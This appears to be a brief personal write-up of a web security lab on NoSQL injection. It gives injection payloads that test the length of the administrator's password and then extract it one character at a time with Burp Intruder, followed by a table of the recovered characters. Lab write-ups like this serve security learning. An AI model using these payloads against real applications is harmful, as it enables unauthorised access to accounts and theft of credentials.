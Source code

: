 # **Lab: Exploiting NoSQL injection to extract data**

Change the user parameter to `administrator' && this.password.length < 30 || 'a'=='b`, then send the request.

administrator' && this.password[$0$]=='$a$

![image.png](Burp%20Suite%202561af578eba4b378c28fe54b47dd0b7/image.png)

La contraseña es de 8 caracteres

![image.png](Burp%20Suite%202561af578eba4b378c28fe54b47dd0b7/image%201.png)

| 5 | c |
| --- | --- |
| 2 | q |
| 3 | q |
| 7 | d |
| 1 | f |
| 6 | z |
| 0 | n |
| 4 | v |
